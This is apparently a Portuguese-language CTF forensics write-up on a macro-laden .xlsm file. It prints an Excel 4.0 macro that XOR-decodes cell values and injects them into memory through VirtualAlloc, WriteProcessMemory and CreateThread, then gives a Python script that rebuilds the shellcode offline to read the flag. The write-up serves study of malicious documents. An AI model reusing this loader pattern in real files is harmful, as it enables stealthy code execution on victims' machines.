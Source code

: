 #Difficult : Easy #Category : Forensics
#### Info
Recebemos um arquivo `xlsm`, que podemos primeiro ver suas propriedades e depois abrir com algum editor como `libreoffice` ou `wpsoffice`.

```sh
exiftool ./free_decryption.xlsm
```
![[Pasted image 20250513104558.png]]

Vemos que ele tem uma macro, vamos então abrir o documento para ver seu conteúdo. Ao abrir no `wpsoffice` temos o seguinte resultado.
![[Pasted image 20250513110413.png]]
#### Code analysis
Embora eu não saiba exatamente o que cada linha faz, podemos tentar descobrir a intenção do script.
```sh
=SELECT(E1:G258)
=CALL("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
=SET.VALUE(C1,0)
=FOR("counter",0,772,2)
=SET.VALUE(B1,CHAR(BITXOR(ACTIVE.CELL(),24)))
=CALL("Kernel32","WriteProcessMemory","JJJCJJ",-1,A2+C1,Β1,LEN(Β1),0)
=SET.VALUE(C1,C1+1)
=SELECT(,"RC[2]")
=NEXT()
=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)
=WORKBOOK.ACTIVATE("Sheet1")
HALT()
```

Primeiro ele seleciona as células que contém os números, depois pede para a Kernel alocar um espaço de memória. Após isso ele vai fazendo uma iteração  de 2 em 2 nos valores das células e fazendo um `bitXOR` entre a célula selecionada e `24` e então adiciona esse valor a memória. Podemos fazer o mesmo processo para ver qual binário se origina.
#### flag
Primeiro precisamos tratar o os números, colocando todos na mesma linha separadas por vírgula, utilizei o `neovim` para isso.
```nvim
%s/\n/,/g
%s/\s\+/,/g
```
![[Pasted image 20250513114407.png]]
Sobrou uma vírgula na última linha, podemos então nós mesmo retita-la. E salvei em um arquivo chamado `cells`

Agora criamos o `exploit` que irá recriar o binário.
```python
cells = open('./cells','r').read()
pre_numbers = cells.replace("\n","").split(",")
numbers = pre_numbers[::2]

key = 24
shellcode = b''

xor_result = [int(num) ^ key for num in numbers]

shellcode = bytes(xor_result)

open("shellcode.bin", "wb").write(shellcode)
```

Podemos então usar o comando `strings` para pegar a flag.
```sh
python exploit.py
strings shellcode.bin
```
![[Pasted image 20250513135632.png]]
***
![[Pasted image 20250513135744.png]]
